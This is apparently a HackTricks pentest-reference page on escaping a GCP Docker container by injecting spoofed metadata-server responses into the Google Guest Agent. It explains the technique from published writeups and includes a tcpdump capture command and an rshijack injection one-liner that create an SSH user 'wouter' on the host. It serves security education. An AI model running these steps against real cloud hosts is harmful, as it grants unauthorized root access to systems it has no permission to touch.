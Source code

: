# GCP - Network Docker Escape

{{#include ../../../banners/hacktricks-training.md}}

## Initial State

In both writeups where this technique is specified, the attackers managed to get **root** access inside a **Docker** container managed by GCP with access to the host network (and the capabilities **`CAP_NET_ADMIN`** and **`CAP_NET_RAW`**).

## Attack Explanation

On a Google Compute Engine instance, regular inspection of network traffic reveals numerous **plain HTTP requests** to the **metadata instance** at `169.254.169.254`. The [**Google Guest Agent**](https://github.com/GoogleCloudPlatform/guest-agent), an open-source service, frequently makes such requests.

This agent is designed to **monitor changes in the metadata**. Notably, the metadata includes a **field for SSH public keys**. When a new public SSH key is added to the metadata, the agent automatically **authorizes** it in the `.authorized_key` file. It may also **create a new user** and add them to **sudoers** if needed.

The agent monitors changes by sending a request to **retrieve all metadata values recursively** (`GET /computeMetadata/v1/?recursive=true`). This request is designed to prompt the metadata server to send a response only if there's any change in the metadata since the last retrieval, identified by an Etag (`wait_for_change=true&last_etag=`). Additionally, a **timeout** parameter (`timeout_sec=`) is included. If no change occurs within the specified timeout, the server responds with the **unchanged values**.

This process allows the **IMDS** (Instance Metadata Service) to respond after **60 seconds** if no configuration change has occurred, creating a potential **window for injecting a fake configuration response** to the guest agent.

An attacker could exploit this by performing a **Man-in-the-Middle (MitM) attack**, spoofing the response from the IMDS server and **inserting a new public key**. This could enable unauthorized SSH access to the host.

### Escape Technique

While ARP spoofing is ineffective on Google Compute Engine networks, a [**modified version of rshijack**](https://github.com/ezequielpereira/rshijack) developed by [**Ezequiel**](https://www.ezequiel.tech/2020/08/dropping-shell-in.html) can be used for packet injection in the communication to inject the SSH user.

This version of rshijack allows inputting the ACK and SEQ numbers as command-line arguments, facilitating the spoofing of a response before the real Metadata server response. Additionally, a [**small Shell script**](https://gist.github.com/ezequielpereira/914c2aae463409e785071213b059f96c#file-fakedata-sh) is used to return a **specially crafted payload**. This payload triggers the Google Guest Agent to **create a user `wouter`** with a specified public key in the `.authorized_keys` file.

The script uses the same ETag to prevent the Metadata server from immediately notifying the Google Guest Agent of different metadata values, thereby delaying the response.

To execute the spoofing, the following steps are necessary:

1. **Monitor requests to the Metadata server** using **tcpdump**:

```bash
tcpdump -S -i eth0 'host 169.254.169.254 and port 80' &
```

Look for a line similar to:

```
<TIME> IP <LOCAL_IP>.<PORT> > 169.254.169.254.80: Flags [P.], seq <NUM>:<TARGET_ACK>, ack <TARGET_SEQ>, win <NUM>, length <NUM>: HTTP: GET /computeMetadata/v1/?timeout_sec=<SECONDS>&last_etag=<ETAG>&alt=json&recursive=True&wait_for_change=True HTTP/1.1
```

2. Send the fake metadata data with the correct ETAG to rshijack:

```bash
fakeData.sh <ETAG> | rshijack -q eth0 169.254.169.254:80 <LOCAL_IP>:<PORT> <TARGET_SEQ> <TARGET_ACK>; ssh -i id_rsa -o StrictHostKeyChecking=no wouter@localhost
```

This step authorizes the public key, enabling SSH connection with the corresponding private key.

## References

- [https://www.ezequiel.tech/2020/08/dropping-shell-in.html](https://www.ezequiel.tech/2020/08/dropping-shell-in.html)
- [https://www.wiz.io/blog/the-cloud-has-an-isolation-problem-postgresql-vulnerabilities](https://www.wiz.io/blog/the-cloud-has-an-isolation-problem-postgresql-vulnerabilities)

{{#include ../../../banners/hacktricks-training.md}}

